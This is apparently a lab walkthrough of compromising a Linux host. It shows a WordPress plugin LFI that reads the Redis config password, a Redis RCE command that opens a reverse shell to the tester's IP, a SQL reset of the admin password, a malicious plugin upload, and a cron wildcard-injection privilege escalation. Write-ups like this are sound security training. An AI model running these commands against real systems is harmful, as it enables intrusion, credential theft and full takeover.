We start by scanning the web server on port 80 with the wpscan tool. We find that the site-editor plugin is enabled and is outdated. We use a POC script which exploits an LFI vulnerability within the plugin and read the password for the Redis service on port 6379.
./lfi_wordpress_site_editor.sh -f /etc/redis/redis.conf | grep pass -C 1  We can see that the authentication was successful with the password.  We then execute a Redis authenticated RCE POC and obtain command execution. This allowed us to obtain a reverse shell as user redis. python3 redis-rce.py -r 192.168.108.166 -L 192.168.45.239 -a 'Ready4Redis?'  We leverage the RCE vulnerability to obtain a Netcat reverse shell.   We read the password for the SQL database from a configuration file, log in to the SQL service and set a new WordPress password.  UPDATE wp_users SET user_pass= MD5('Password123') WHERE ID = 1;  This allows us to log in to the WordPress admin panel and upload a malicious plugin. We use this tool to generate it: https://github.com/wetw0rk/malicious-wordpress-plugin.   We now use the webshell feature of the plugin to obtain a reverse shell as user Alice.   We then abuse wildcard filename command injection and inject a malicious command to the script running as a cron job. We wait for the script to run, which adds an entry to the sudoers file allowing user Alice to run any command as root.    